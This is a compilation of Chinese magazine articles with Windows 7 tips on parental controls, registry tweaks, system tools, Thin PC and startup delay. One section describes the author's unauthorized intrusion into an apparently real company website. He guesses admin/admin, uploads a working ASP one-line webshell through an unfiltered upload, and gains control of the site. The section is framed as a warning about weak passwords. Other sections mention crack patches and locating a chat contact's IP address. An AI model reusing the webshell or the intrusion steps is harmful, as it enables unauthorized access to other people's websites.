如果只允许孩子玩特定的游戏，家长控制提供以下两个选择。

- a.设置游戏分级：是否允许孩子玩游戏，按照分级和内容类型限制游戏访问，按名阻止或允许特定游戏三个部分。对于Windows 7自带的游戏一般无需设置均可。主要还是限制EC分级游戏，可以根据孩子的年龄设置。

另外，我们如果还要阻止那些敏感的游戏，最好将下面所有分级内容选中，然后点击“确定”。

- b.阻止或允许特定游戏：这个对于有的家长来说也挺陌生，因为家长并不是游戏的专家，更不知道孩子沉迷什么游戏。所以本人强烈建议家长设置游戏分级。这里我就简单“阻止或允许特定游戏”的设置。

- 设置三：允许和阻止特定程序。有的家长本身就玩游戏，可能在电脑上安装某些不适合孩子用的游戏或程序（如CS或红警等本地游戏）。可以采用下面的程序限制阻止孩子运行。允许运行的程序设置如下：家长们只需要选定将要允许运行的程序，或是在已安装的不适合孩子的游戏程序前取消打钩，并单击“确定”即可。

### 3. Windows live 家庭安全设置

我们还可以通过“Windows Live 家庭安全设置”来控制孩子们可以查看的内容和联机交谈的对象。

Windows7默认是不安装其它家长控制的，我们可以通过下面的操作来实现。首先在“家长控制”项最下面“其它控制”中单击“如何安装其它控制”。然后在出现的对话框中单击“查找windows家长控制web筛选和活动报告”，最后打开Windows live家庭安全设置2011的网站进行下载。也可以直接打开Windows live网站直接下载(http://explore.live.com/windows-live-family-safety?os=other)。

下载后直接默认安装即可，安装后在“家长控制”中最下方的其它控件中就会出现“Windows live家庭安全控制”。

单击“baby”用户，如①，出现登录Windows live家庭安全设置对话框，需要您输入MSN的帐号如②。如果没有就需要申请一个。进入后选择要监视的用户，即baby用户如③。点击"familysafety.live.com"网站，输入msn的帐号和密码进入家庭安全自定义设置如④和⑤。

进入网站后我们便可以通过“网页过滤、联系人管理、时间限制、游戏设置”等来进行自定义管控了。设置完成记得点击“保存”哦。另外可以通过“活动报告”对孩子的使用活动进行汇总。还可以通过“联系人管理”对孩子聊天的对象进行管理。这里指MSN的联系对象。

最后就需要您把这个设置好的帐户(baby)告诉您的孩子了！您可以放心地让他使用您的电脑。这样孩子就可以在安全、健康的环境下畅游网络世界了。再也不用担心孩子再会沉迷网络了。
(文/温宏彬)

## 巧建快速通道 让文件操作更快捷

使用电脑过程中经常需要对图片或文档进行编辑，那就得使用“打开”和“另存为”对话框。而一些常用文件都保存在某一些特定文件夹中，每次打开或保存时，都要在对话框中找一遍这些文件夹，实在是太麻烦了。虽然在Win7系统下的“打开”或“另存为”对话框中有一个“收藏夹”，但它也只有默认的几个位置，不能满足我们的需要，那能不能在“收藏夹”中为常用文件夹建立一条条“快速通道”呢？

只要有想法，就能办到，操作起来也很简单。首先，为常用文件夹在桌面创建快捷方式。然后为它们修改一个适合的名称。右键单击桌面上已经被命名好的快捷方式图标，点击“剪切”项。双击桌面上的“计算机”图标，在弹出窗口左侧点击“收藏夹”，在右侧空白处点击右键，选择“粘贴快捷方式”命令，将刚才剪切的快捷方式图标粘贴到“收藏夹”文件夹中。

以后在Word、Excel等软件中，需要执行打开、保存或另存为操作时，就会相应地在窗口的左侧“收藏夹”项下显示出设置的常用文件夹名称，点击它们即可快捷方便的进入，免去一层层寻找的麻烦，让工作效率大大提高。

小提示：
在XP系统下，可以使用组策略为打开和另存为对话框添加常用文件夹，但WIN7系统却不再支持这一功能，在WIN7系统下使用此方法最为方便快捷，而且没有文件夹个数的限制。
(文/博言)

## 系统搜索升级 压缩文件内容也能搜

刚上班，就听同事说他很久以前把一个TXT文件存在一个压缩文件里，现在急用，但电脑里压缩文件特别多，忘记存在哪个压缩文件里了。用系统自带的搜索功能根本无法搜索到隐藏在压缩文件中的文件。难道要把所有的压缩包文件解压出来再搜索？还好我有Archive Searcher这个工具，即使文件或者文件夹藏到压缩包里边，它照样能帮你将其快速“揪”出来，省了不少麻烦。

先下载Archive Searcher 2.10绿色汉化版，然后运行。Archive Searcher的界面非常简洁明了，首先在“搜索此文件”后面的下拉菜单中选择是搜索文件夹还是文件。然后在文件名中输入需要搜索的文件或者文件夹名称。如果文件名记得不太清楚了，还可以使用通配符。

然后在“压缩方式”后面的下拉菜单中选择压缩文件格式，Archive Searcher能够支持ZIP、RAR、ACE及CAB等常见的压缩文件格式。在“开始路径”后面选择文件所在的路径，最后单击“立即搜索”开始搜索。搜索完成后在下面会把文件名称、位置、大小等文件信息显示出来，直接双击文件名称即可打开该压缩文件。

小提示：
如果你想要搜索的是压缩文件中的文件夹下面的子文件夹，可以单击左上角“立即搜索”右侧的向下三角图标，然后勾选“包含子文件夹”选项，最后单击“立即搜索”按钮就可以了。
(文/贺全荣)

## 隐藏文件藏深点 显示选项也关闭

我们要查看被隐藏文件或者是文件夹时，都是通过资源管理器的菜单项“工具”里打开“文件夹选项”进行设置，找到“隐藏文件和文件夹”，选中“显示隐藏的文件、文件夹和驱动器”选项，这样资源管理器就会显示系统中的隐藏文件。

虽然我们选中了“显示隐藏的文件、文件夹和驱动器”并进行了“应用”。其实完全可以用修改注册表的方式，将显示隐藏文件选项功能也关闭。这样系统中的隐藏文件就永远不会被显示出来了。

Advanced\Folder\Hidden\SHOWALL”注册表项，在右边找到CheckValue，双击它，把它的值改为“0”即可。如果要使“文件夹选项”工作正常，只要再把值改回为“1”即可。对于Win7来说，这个选项只要修改完，退出注册表就可以生效的，无需重启。
(中国第一枫)

## 巧用Win7“问题记录器” 海量图片轻松看

芳芳今年6岁了。在芳芳出生不久，身为工程师的爸爸就被公司派遣到国外工作，每年回家探亲一次的父亲只能通过视频和照片来关注着孩子的成长。为了满足芳芳爸爸的心愿，芳芳的妈妈经常会给芳芳拍照片，可是随着相机像素的提高，拍出来的照片容量越来越大，动辄上百M甚至上G的图片，传输起来就变得麻烦了许多。

面对这个问题，芳芳的妈妈竟然巧妙地用Win7内置的“问题步骤记录器”解决了。“问题步骤记录器”相当于一个屏幕录像机，开始记录后就会把你在当前屏幕上的一举一动记录下来，但是与普通屏幕录像机所不同的是，它并非简单的存为视频，而是以图文形式保存关键的鼠标点击和键盘操作，且支持添加注释，既可减小体积又不影响说明问题的准确性，芳芳的妈妈通过记录器将本机浏览照片的步骤记录下来，然后发送给芳芳的爸爸，记录生成的文件不但体积小，而且还能添加记录附注，这相当于给照片添加了注释一样，让浏览照片变的图文并茂。

- 1. 第一步: 在开始菜单“运行”中键入命令psr，或者按下Win+R弹出“运行”对话框，在空白字段中输入psr，然后单击“确定”按钮，即可打开“问题步骤记录器”录制工具条界面。
- 2. 第二步: 启动“问题步骤记录器”后要先设置一下，单击工具条最右边的“三角”图标，在下拉菜单中点击“设置”，就会弹出需要详细设定的项目，在“输出位置”下面点“浏览”按钮设定录制文件存放位置，“启用屏幕捕获”下选择“是”，设置屏幕捕获的最大图片量为25，表示录制时最多抓25张图，最后按“确定”完成设置工作。
- 3. 第三步: 现在可以用PSR抓图了，操作非常简单，只要点击“开始记录”即开始进行录制，PSR会自动记录下每次鼠标点击和按键动作，此时在屏幕上每单击一次鼠标，“问题步骤记录器”就会将鼠标点击以红色小球进行凸显，自动记录我们屏幕上的鼠标操作并对当前屏幕进行截屏，每张截屏图片还会自动保存在指定的文件夹中，直至你按了“停止记录”才停止录制，或者按“暂停记录”也能停止录制，当开始录制时，“问题步骤记录器”界面上的“停止记录”和“添加注释”按钮都变成可用状态，方便你使用，注意PSR的录制操作不是录像，而是连续的屏幕抓图，只有当鼠标或键盘有动作后才会抓图并自动加上描述。
- 4. 第四步: 希望停止录制时点击“停止记录”按钮即可，随之会弹出一个对话框，让你设置将录制文件保存到何处，给保存文件命名后，点“保存”就会自动生成一个MHTML报告文件并自动打包成ZIP压缩文件，打开这个ZIP文件，你会看到刚才录制的文件并非视频文件，而是一个.mht报告文件，用IE浏览器打开该mht文件即可观看，同时也支持以幻灯片形式播放查看，这样刚才录制的操作就会图文并茂地显示出来，鼠标点击区域会高亮显示，录制的文件以图片的形式一页一页显示，屏幕上每一步操作都配有抓图，而且还注释出操作者每步有哪些动作，例如按了哪些键，鼠标如何操作的等，记录的非常详细，点击“复查录制问题的实况”链接，可以一步步地查看问题实况及对应的用户注解，点击“复查附件中的详细信息”链接则可以用文字的方式来查看用户的每一步操作细节，以便精确地识别程序和用户界面的问题。

小技巧: 如果你想做软件操作手册，推荐使用PSR，这样你就不必繁琐地截图和文字说明了，点点鼠标就能一气呵成，非常省时省力！由于生成的MHTML文件体积很小，你还能将它作为电子邮件的附件发送给他人，方便朋友学习或者让技术支持人员查看屏幕上出现的问题，这样对方即可迅速找到故障原因，帮你解决问题。

## 收放自如 显示指定扩展名

在平时的系统使用中，很多人都习惯将文件的扩展名隐藏，但有的时候还需要通过扩展名来辨别文件类型，比如不同版本的Word的扩展名就不一样。如何能做到日常文件不显示扩展名，而指定类型的几种文件显示扩展名呢？

在XP系统中，部分类型的扩展名是可以指定显示的，比如只希望显示出Word新版本格式的扩展名，可以在“文件夹选项”的“文件类型”中找到“DOCX”，然后点“高级”，选中“始终显示扩展名”即可。

不过有些扩展名如exe，bat是不可设置的，而在Win7系统下是没有此设置选项的，如何能够解决这个难题呢？不妨试试文件名助手这款软件。

下载地址: http://files.cnblogs.com/hzspa/jnamev033.zip

把程序可以放到你需要的位置，然后双击即可扩展资源管理器的右键菜单，如果不需要，只要再双击一次，就可以反注册，很简洁。此时小工具就发挥威力了，需要注意的是，在Win7下使用要降低一下UAC的级别，否则可能程序会起不了作用。

双击注册此小工具之后，如果在资源管理器中，想让某个文件始终显示此类文件的扩展名，只要鼠标右键点中此文件，选右键菜单中的“2.扩展名处理”即可，如果想不显示，只要再操作一次即可，非常便捷。

此工具除了可以针对指定类型的扩展名进行显示与不显示控制之外，还提供了“我改名”功能，即此时可以修改文件名中的所有部分，也提供了“文件全路径名复制到剪贴板”的功能，它针对写Word文档、插入图片时取文件全路径时很有帮助，或者是论坛上传图片时也提供很大方便。
(文/浙江联众卫生 徐怀平)

## 保障Win7安全 我有“瑞士军刀”

在日常操作中我们经常要对进程进行管理，说到进程管理很多朋友就会想到大名鼎鼎的“冰刀”(IceSword)，不过它不支持Win7系统，XueTr(下载地址: http://www.xuetr.com/)则是一款和“冰刀”功能类似进程管理软件，它不仅是一个强大的系统信息查看软件，也是一个强大的手工杀毒软件，用它可以方便地揪出电脑中的病毒木马(支持32位全系列Windows系统)，有效保障Win7安全！

- 1. 查看并删除多余启动项
   实例: 查看并删除卸载后的加密软件残留右键菜单
   笔者在安装某加密软件后手工将其卸载，但是对其残留的右键菜单却无法删除，以管理员身份启动XueTr后切换到“启动项”，这里可以看到XueTr检测到的启动项目非常的全面，而且对于非微软项目，程序会以蓝色字体标出，现在只要在右键启动菜单中找到加密软件对应的菜单，右击选择“删除(启动信息和文件)”即可。
   小提示: 对于病毒、木马或者恶意网站在右键添加的菜单删除类似，对于内核驱动模块启动项则可以切换到“驱动模块”，删除蓝色字体标出启动项即可。
- 2. 删除或者复制顽固文件
   当我们试图删除或者复制某些系统正在使用的文件时，系统会阻止我们的操作，对于这些文件，XueTr不仅可以查看哪个进程在使用文件，而且可以对其强制删除或者复制。
   实例: 复制系统重要启动配置文件BCD
   对于Win7系统来说，一旦登录系统后SYSTEM账户就会锁定重要启动配置文件“C:\boot\BCD”，通过常规的方法是无法对其进行复制备份的，系统会提示“文件已在System中打开”。
   现在启动XueTr后切换到“文件”，然后展开“c:\boot”，右击右侧窗格的“BCD”文件选择“查看锁定情况”，在打开的窗口就可以看SYSTEM进程正在使用这个文件，现在右击需要复制的文件选择“解锁”，之后就可以正常对文件进行复制或者删除操作了，对于类似正在被系统调用的木马、病毒文件，删除操作同上。
   小提示: 对于Win7系统来说，无法删除文件除了被系统调用外，还经常遇到权限的拦截，木马文件通过修改系统权限或者藏身在特殊目录如“c:\System Volume Information”等，阻止用户删除，XueTr文件管理窗口可以轻松对文件进行任意管理，因为它基于系统底层运行，只要选中需要删除的文件(夹)，无论是否取得权限，只要右击选择“强制删除”，即可轻松删除顽固文件。
- 3. 禁止创建新的进程
   大家知道很多双进程木马，经常会有两个互相守护进程保护，这给我们查杀带来诸多不便，现在借助XueTr“禁止创建进程”功能，就可以对双进程木马进行有效的查杀，如果发现木马进程，我们只要在XueTr窗口切换到“本工具配置”，勾选“禁止创建进程”和“禁止创建线程”，这样在XueTr中结束木马某一进程后，另一守护进程试图再生进程时就会遭到XueTr的拦截，提示“参数错误”，从而可以轻松斩杀双木马进程。

写在最后
当然作为一款可以在Win7下运行的内核级进程管理辅助文件，除了上述介绍的功能外，它还提供很多贴心的功能。
比如在“杂项”设置里可以轻松查看文件关联是否被恶意更改(不是默认的设置则以红色字体显示)，对于正在运行文件，通过右键菜单的“定位到文件位置”、“定位到注册表”功能可以非常方便地定位文件，利用XueTr我们不仅可以用它管理文件，而且可以为我们手工杀毒带来极大的便利。
(文/俞木发)

## 删除自动播放窗口的多余选项

每次连接移动设备，自动播放弹出窗口中总会显示一些多余的选项，例如“Zip from camera”，而WinZip程序早已从系统中删除，看着这个项目，总是不那么舒服，借助注册表编辑器，就可以快速解决这一问题。

以管理员身份打开注册表编辑器，依次跳转到HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers\Handlers，在这里应该很快就可以找到相关的键，选择“WIA_{B9AFB29B-1B95-4D49-8B7C-DED1B966874C}”，直接右击删除，其余的多余选项也可以按照相同的方法进行删除。以后，再次连接移动设备，我们就再也不会在自动播放窗口中看到多余的选项。

补充：

注册表修改的效果也可以在“控制面板→自动播放”窗口进行查看。

(文/王志军)

## 追求个性 屏保程序拿来做桌面

看腻了一成不变的桌面？也不想使用第三方程序对桌面进行自动变换？那么，你可以试一试将Windows 7内置的屏幕保护程序作为当前桌面，这可太有个性了，这里以变幻线屏保为例进行说明：

单击开始按钮，依次选择“所有程序→附件→命令提示符”，右击选择“以管理员身份运行”，进入命令提示符环境，跳转到“\windows\system32\”文件夹，手工输入“Mystify.scr 空格 /p65552”，这就是设置变幻线屏保作为桌面的效果，桌面设置完成后，所有操作只能通过任务栏或开始菜单进行。

需要提醒的是，简单的抖动鼠标，或者按下回车键，并不能直接退出屏保状态，正确的方法是右击任务栏上的屏保程序图标，从快捷菜单中选择“关闭窗口”即可。

小提示：

如果想使用其他的屏幕保护程序作为桌面背景，可以将Mystify.scr替换为Ribbons（彩带）、ssText3d（三维文字）、Bubbles（气泡）、PhotoScreensaver（照片）。

(文/周文娟)

## 网站安全的大敌——弱口令

如果一个网站存在弱口令漏洞，能让人轻易的拿到网站的webshell，就会对网站的安全以及浏览这个网站的电脑的安全造成严重的威胁，这决不是危言耸听，你不信的话来看下面的一个例子。

昨晚在用百度搜索东西的时候看到了网页右边的推广网站，看来是网站购买了百度的推广服务，没什么事，就顺手点开一个网站看看网站的安全性如何。网站的地址为http://www.xxxfood.com/，为了不泄露具体的网址，我用xxx代替了网站域名的前3个字符。网站打开后，界面还算清爽，来看下网站的安全性如何。顺手在网址后面加上admin/，也就是尝试访问http://www.xxxfood.com/admin/，出来后台登录页面。可能有的朋友会问你在网址后面加的是admin为什么不是123456？因为admin是很多网站管理系统后台目录的名字，尤其是ASP程序的。有了后台登录页面再知道管理员的用户名和密码就可以登录后台了，但我现在不知道管理员的用户名和密码，怎么办呢？来尝试下弱口令。

弱口令(weak password)没有严格和准确的定义，通常认为容易被别人（他们有可能对你很了解）猜测到或被破解工具破解的口令均为弱口令。网站管理员最常用的用户名为admin，常用的弱口令密码为admin，admin888，123456等。来尝试下弱口令，首先尝试用户名admin，密码admin，第一次尝试居然就进去了后台，看来今天的运气不错。因为很多小的企业网站存在弱口令漏洞，我们可用admin，admin的用户名密码组合尝试，不成功还可以再尝试下admin，admin888和admin，123456等用户名和密码组合。

进了后台就考虑利用后台的功能得到webshell，最希望见到的就是可以直接上传webshell，如果过滤了上传文件的后缀的话可以先上传.jpg格式的webshell然后通过数据库备份功能把.jpg格式的webshell备份成.asp格式的（仅限于采用Access数据库的程序，而且后台要有数据库备份功能）。点击后台“新闻管理”下的“新闻添加”，再点“插入图片”按钮，出来了上传文件的地方。

把ASP一句话木马服务端代码<%eval request("x")%>保存为文件123.asp，通过“浏览”按钮选择123.asp，点“上传”按钮后提示“您的文件123.asp已成功上传！”。

好像上传成功了，说明程序没有对上传文件的后缀进行过滤。123.asp传到了哪里呢？点“HTML”按钮后就找到了上传文件的地址http://www.xxxfood.com/uploadpic/123.asp，说明上传到了网站根目录下的uploadpic文件夹下。

用lake2的eval最小马发送端连接http://www.xxxfood.com/uploadpic/123.asp，写上密码x，成功获得webshell，利用这个webshell可以完全控制网站下的任何文件，在网页里挂马更是轻而易举，如果利用这个webshell进行提权，甚至能拿到网站所在服务器的系统权限。而一旦拿到了网站所在服务器的系统权限，同服务器上的其它网站将没有任何安全可言。好在我只是想看下网站的安全性，拿到webshell后没有修改网站的首页，更没有在网站文件里挂马，没有对网站原有的文件进行任何更改。但我不敢保证下一个利用弱口令漏洞进来的人不会做坏事，因此弱口令的危害是巨大的。

弱口令漏洞是个很低级的漏洞，你用弱口令拿下一个网站都不好意思和别人说，但它的危害却是巨大的。一个网站的程序再安全，如果存在弱口令漏洞，在攻击者面前也可能瞬间被攻破。为什么会存在弱口令？很多时候是为了方便，好记。其实防范弱口令漏洞很简单，使用复杂一点的密码就可以了，比如密码的长度不要小于8位，密码最好由字母数字和特殊符号组成等。写本文的目的不是教大家怎样利用弱口令漏洞入侵网站，而是通过一个实例展示弱口令漏洞的危害，提醒有网站的朋友要注意弱口令漏洞，再远一点，你的邮箱、QQ等也要防范弱口令漏洞。

(文/txcbg)

## 巧改Windows 7启动画面 让女友无处不在

女友使用Windows 7系统已有一段时间了，她看腻了默认启动、登录界面，产生审美视觉疲劳，想自己动手将它们修改的更个性一点，比如将自己的照片换到登录画面上，也好在朋友面前秀一秀。

可是这些破解修改操作对于女友这等菜鸟来说，可不是一件轻松的事儿，如果操作不当，会影响系统稳定性。

为了方便女友操作，我为她找到了Windows 7 Boot Updater V0.1.2 和Windows 7 Logon Background Changer V1.34这两款小工具。

使用这两个神奇的软件，不但能轻松添加静态女友照片替换启动动画，还能使用105张女友照片作为超个性化启动动画，而且还可将登录的背景改为女友喜欢的画面，不但操作简单，而且很安全，最主要的是可以随时恢复到系统默认状态。

### 一、修改启动界面和动画

在女友电脑上启动Windows 7 Boot Updater工具，点击“Sprache”菜单，从中选择“English”项，将界面语言修改为英文。

点击左侧的“Booting（开机启动）”标签，在“Animation”下拉列表中选择“static Image（固定单一的图片）”项，从弹出的“打开”对话框中选择一个女友的照片，将Windows 7启动界面的动画换成静态照片。点击“Background”后颜色框从弹出的“颜色”框中选择一个女友喜欢的显示颜色。

接下来处理显示的文字信息，在“Messages”框中点击“Background”后颜色框，选择两行文字背景颜色与启动界面一致。在“Message1”标签下“Text”后的框中输入新内容替换原来的“? Microsoft Corporation”版权信息，使用下面的选项，设置文字颜色、位置和大小。

再切换到“Message2”标签，将原来的“Starting Windows”信息使用同样的方法更换一下，设置后即可在右侧预览效果，点击“Fullscreen”按钮全屏预览效果。为了修改更彻底，点击“Resuming（休眠恢复）”标签，使用同样的方法将休眠恢复界面也修改一番。

所有的修改完成后，女友也很满意，点击“Apply”按钮让其生效，重启电脑欣赏吧！

为了博得女友芳心，在自己本本上也如法炮制，在更换启动动画前，同时精心准备了女友105张照片，保存到同一文件夹中，在“Animation”下拉列表中选择“Animation（动画设置）”项，从弹出的“选择文件夹”对话框中选择女友照片文件夹，将Windows 7启动动画换成女友照片动画效果，启动时欣赏女友靓照，就不觉得启动时间长了。

### 二、修改登录背景图片

启动界面和动画修改好后，接下来为女友本本更换登录界面背景。Windows 7系统默认的登录界面背景图限制大小不能超过255KB，同时还对图片尺寸也有要求，过去更换操作很麻烦。

使用Windows 7 Logon Background Changer这个小工具就简单多了，使用任意照片都可以轻松搞定！启动工具后，点击“Choose a folder”按钮，选择女友照片文件夹，其下的照片显示在上方，点击任意一张即可在下方预览，适合后，点击“Apply”按钮生效，重启电脑欣赏。

轻松修改Windows 7的启动、登录界面，让女友本本的启动更个性，在密友间也很有面子，可是没想到她的密友们都想修改修改，请女友帮忙，这下她可成了密友们中的“电脑高手”哦！

软件下载地址：

Windows 7 Boot Updater V0.1.2 绿色版（Win7启动界面修改工具）
http://www.greenxf.com/soft/25360.html

Windows 7 Logon Background Changer V1.34 绿色版（Win7登录界面背景修改）
http://www.xdowns.com/soft/6/65/2009/Soft_55139.html

(文/青山漫步)

## TPC 来自微软的瘦身系统

最近，微软发布了一款名为Windows 7 Thin PC（以下简称Win TPC）的系统。本质上讲就是Windows 7，只不过删除了部分系统组件，禁用了不常用的服务，是一款瘦身(Thin)后的Win 7系统。据悉，Win TPC占用的硬盘空间不足3GB，运行速度远比旗舰版Win 7快，特别适合于配置较低的电脑。那么，Win TPC究竟是短小精悍还是弱不禁风？它能满足我们的日常办公、娱乐所需吗？

小知识：

微软曾发布过Windows Fundamentals for Legacy PCs（简称Win FLP），它是Win XP的瘦身版，主要用于当时运行Win 9X的遗留电脑，让广大电脑用户顺利地从Win 9X过渡到Win XP。

### 一、安装Win TPC

目前，Win TPC还只有英文版。安装程序和简体中文语言包都可到远景论坛(http://bbs.pcbeta.com/viewthread-872971-1-1.html)下载。

Win TPC的安装与普通版Win 7完全相同，只不过是英文界面，下面就对其进行汉化处理。

- 第1步：安装语言包。本例中，笔者下载到的语言包名为attachment.bat，假设保存于G盘。首先，单击“Start→All Programs→Accessories”，右击“Command Prompt”，选择“Run as Administrator”。从弹出的命令提示符窗口中输入以下命令：
DISM /Online /Add-Package /PackagePath:G:\attachment.bat
要注意的是，这一命令对空格的要求比较严格。笔者特用□表示空格，请不要在其它地方随意加入空格。

- 第2步：设置。单击“Start→Control Panel→Region and Language”。接着，在Format下选择“Chinese (Simplified, PRC)”，在“Location”选项卡下将“Current Location”设置为“China”。在“Keyboards and Language”选项卡下将“Choose display language”设置为“中文(简体)”。然后，重新启动电脑，整个Win TPC的界面就全部中文化了。

小提示：

没进行汉化前，有的应用软件无法安装，有的虽能安装但可能出现乱码！另外，默认地，Win TPC只有3天试用时间，手动激活后可延长到90天。网上有破解补丁，破解后能无期限使用。

### 二、直观Win TPC

Win TPC安装程序约1.5GB，而Win 7旗舰版接近2.5GB。实测表明，Win TPC的安装速度几乎是旗舰版的2倍。那么，安装完成后与旗舰版有哪些不同呢？

### 1.硬盘占用少

Win TPC安装后占用硬盘空间接近3GB，而旗舰版动辄就是8-9GB。

原来，Win TPC已去掉了以下组件：Windows DVD Maker（DVD媒体制作工具）、Media Center（媒体中心）、系统还原、映像还原、制作修复光盘、系统自带的游戏等组件，还有不常用的字体文件等。

另一方面，将系统分区设置为显示隐藏文件后，可观察到其中没有页面文件pagefile.sys、休眠文件hiberfil.sys。要知道，休眠文件与电脑的内存条容量相等，页面文件的最大值为内存容量的1.5倍。如果内存条为2GB，仅清除这两个文件就能节约出5GB的硬盘占用空间。

小提示：

Win 7家庭版无组策略、创建家庭组、Bitlocker、AppLocker等高级功能，而Win TPC却一样没少。可以这样理解，家庭版无高级功能，而TPC仅是清除了不常用的功能。实测表明，常用的办公、安全、媒体编辑播放软件、游戏等都能在其上运行，不存在兼容性问题。至于网上有传无法安装Microsoft Security Essentials，估计是因没安装语言包所致。网上还有人说无法安装SQL Server 2008，那是因为没有提前安装.NET Framework 4.0，不能将责任推在TPC身上。

### 2.资源占用低

我们都知道，服务也是Windows系统中的一些特殊程序。与其它程序相比，它运行于后台，不会出现可视化的窗口，仅在进程管理器中能寻觅到它们的行踪。但其它程序的运行却需服务的支持。比如：Windows Search，没有这一服务的支持，Windows的搜索功能将会失效。

Win 7的服务启动方式有自动、延迟启动、手动等方式。所谓“自动”即随着系统的启动而自动运行，“延迟”则表示在系统启动后自动运行。这种方式的最大好处在于能让桌面尽快地呈现出来，让我们尽快地投入到工作中。当我们工作时它才悄无声息地在后台运行起来，而“手动”则可理解为随着其它程序的运行而启动。

不难看出，一方面，服务可影响系统的启动速度；另一方面，当系统启动后，服务则会影响系统的运行速度。为此，很多优化软件都通过禁用服务来达到加快系统启动或运行速度之目的。Win TPC在这方面也下足了功夫，最有效的措施在于彻底删除了系统的搜索功能、还原功能，同时也删除了对应的服务。这两项服务对系统运行速度的影响都比较大，比如：只要指定位置的存贮文件发生了变化，与搜索相关的服务就会自动在后台更新索引文件，为我们进行搜索做好充分的准备。还原功能与之有类似之处，只要我们安装了关键驱动、软件，进行了系统设置，系统就会自动创建还原点。但事实上，使用搜索功能、系统还原的朋友并不多，大家更习惯Ghost等。看来，Win TPC清除这两功能和服务也是情理之中的事。

### 三、问题及解决方法

由于TPC已删除了搜索功能，在开始菜单中也就没有“搜索程序和文件”对话框。这一对话框常用于运行程序，比如输入regedit可打开注册表编辑器。可这样解决：右击开始，选择“属性”，接着在“开始菜单”选项卡下单击“自定义”，勾选“运行命令”。今后，在开始菜单下单击“运行”就能输入诸如regedit、MMC、CMD等命令了。在此，我们还可观察到TPC的开始菜单非常简单。当然，也可通过“Win + R”组合键来调出“运行”对话框。

TPC无还原功能，无媒体中心，无Windows DVD Maker，请用其它工具替代。

有些大型软件如媒体制作工具、游戏等的运行需要页面文件的支持，请手动恢复。如果还想恢复休眠功能，请在命令提示符下输入“powercfg –h on”。

总之，TPC是一套优化适度、资源占用少的瘦身系统。比我们自己优化或用工具软件优化出来的系统的安全性、稳定性都高。适用于配置不高的电脑，或追求运行速度的人。

小编有话说：

Windows是一个庞大而复杂的系统，各组件、服务之间有着千丝万缕的相互依存关系，牵一发而动全身。为此，优化无异于游走在心脏边缘的手术刀，稍有不慎就会造成系统组件缺失、功能异常甚至瘫痪。不谙此道，最好不要自己优化。摆着微软为我们优化的系统不用而非要自己优化，何必呢。

（文/李学昌）

## 磁盘配额管理 我的空间别乱动

周末朋友又要到家里来玩，他那淘气的儿子每次来都会“摧残”我的笔记本电脑，经常会下载网游或者软件。相信朋友们会有和我一样的困惑，不让孩子碰你的电脑不现实，可是如果他下载了大量你用不到的东西呢？电脑的存储空间就那么大，这次删除了下次他来了还会重新下载。怎么办呢？Win 7很贴心，在Win 7下重新配额硬盘，就可以帮助我们解决这个问题。

首先打开“我的电脑”，然后找到数据分区，如“F：”，接下来右击鼠标选择“属性”进入“配额”面板。

点击“显示配额设置”按钮进入到配额设置主界面，再勾选“启用配额管理”和“拒绝将磁盘空间给超过配额限制的用户”开启磁盘配额限制。

接下来最重要的一步，将配额权限由默认的“不限制磁盘使用”更改为“将磁盘空间限制为”，并将空间极限值设置为6GB（F盘总共12GB），最终完成了F盘的配额管理。

这样限制磁盘的使用在你和你的朋友看来是非常不错的选择，而且这个账户是由Win 7管理员Administrator改名而来，具有凌驾于其他帐户之外的所有权利，换句话说刚才所设的磁盘限额其实只是对你的朋友生效，而对于你来说其实根本不起作用。

（文/孙志杰）

## 妙用资源管理器 轻松查QQ好友IP

正在上班，接到好友电话，说他最近在QQ上和一个Q友谈的比较来，准备合作一些业务，但有点不放心，怕遇到骗子，想验证下他QQ的IP，确定他所在的城市。笔者说不是有显IP的QQ版本吗？他说自从QQ对珊瑚虫这些修改版大力打击之后，各种显示IP的版本QQ也很少了。另外这些非官方的修改过的QQ版本也非常不安全，有的带有木马和病毒，如果账号被盗了就得不偿失了。确实如此，好在笔者还有秘密武器，不需要用显IP版本，只要使用的是Windows 7系统，用系统自带的网络资源管理器也能找出好友的IP地址，而且非常准确。

先打开Windows 7的网络资源管理器，在任务栏上单击右键，选择“启动任务管理器”。打开Windows任务管理器，然后在“性能”标签中单击“资源监视器”。然后再切换到“网络”标签，可以看到里面有很多的当前计算机连接网络的进程映像，包括PID号码、连接的IP地址、发送和接收的字节数等。然后在上面的“CPU”栏中只勾选QQ进程，这样就只显示与QQ有关的进程映像，这样方便观察监视。

然后登陆自己的QQ，与你需要探测IP地址的好友打开聊天窗口进行聊天，你会在“网络”栏中看到有几个与QQ有关的进程映像。怎么知道哪一个是要探测IP地址的好友的QQ进程映像呢？可以发一个大点的文件或者是图片过去，也可以进行语音或者视频聊天，这时候在“发送”选项中就会看到字节数的变化，发送数据变化最快，而且数据最大的那个就是你和好友聊天的进程。地址一栏的IP地址就是好友的IP了，记住这个IP地址，然后打开http://www.ip138.com/这样的IP地址查询网站就可以查到IP的归属地了。

小提示：同时开了多个QQ该如何查IP？

有时候打开了多个QQ号，怎么查IP呢？打开Windows任务管理器，切换到“进程”标签，单击“查看”菜单，单击“选择列”，在里面勾选“PID（用户进程符）”，单击“确定”，再打开聊天窗口，切换到任务管理器“应用程序”栏，可以看到好友聊天的任务，选择聊天任务，单击右键，选择“转到进程”，就可以在“进程”标签中看到该QQ所属的PID用户进程符，不同的QQ号码这个进程符是不一样的，记住这个进程符之后，再进行前面的操作，只需要在进程符相同的里面找即可。

（文/贺全荣）

## 开机加速 让自启动程序延迟运行

系统启动慢的一个重要原因，就是随机启动的程序过多，通常的方法是从自启动项目中清除这些程序，待系统启动后再运行。显然，这种方法人为增加了用户的负担，并不科学。如果你不想精简这些启动程序，又想让系统启动加速的话，不妨让一些启动程序，在系统启动的空闲时启动，或者在开机之后再定时启动。利用软件“Startup Delayer”（下载地址：http://www.skycn.com/soft/28338.html），就可以设置延迟启动的程序。软件安装运行后，首先切换至中文界面，依次单击“Options→General”，在“Active Language”中选择“简体中文”，单击“确定”即可。

### 1. 对启动项目中的程序进行延时设置

单击“开机启动程序管理”，可以看到启动项列表，选中某个项目后即可对其进行延时启动设置。

有两种设置方式，一是选择“自动延时”，然后设置CPU空闲率、硬盘空闲率达百分之几时开始启动该程序；二是“手动延时”，输入延时时间，表示系统启动多长时间后启动程序。两种情况下，都必须单击“保存并延迟”才能生效。

